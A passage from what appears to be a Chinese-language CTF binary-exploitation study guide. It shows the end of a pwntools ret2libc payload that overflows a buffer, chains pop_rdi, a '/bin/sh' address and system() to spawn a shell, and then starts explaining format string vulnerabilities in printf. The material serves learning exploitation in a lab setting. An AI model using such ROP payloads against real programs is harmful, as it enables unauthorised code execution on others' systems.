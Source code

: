 ```python
payload = 'a'*0x18
payload += p64(pop_rdi) + p64(bin_sh)
payload += p64(sys_addr)
o.sendline(payload)

o.interactive()
```

![image-20220318204245469](自救指南.assets/image-20220318204245469.png)

过程可以调试看看, 如果出错, 可以多想想, 多调试调试(调试yyds)



## format string vuln

### 介绍

格式化字符串漏洞算是一种比较常见的漏洞，而且这种漏洞影响还是挺大的，可以造成任意读和任意写的效果，格式化字符串漏洞主要是依靠printf函数来实现的函数

### printf 基础

printf的函数原型为

```c
int printf(const char* format, ...);
```
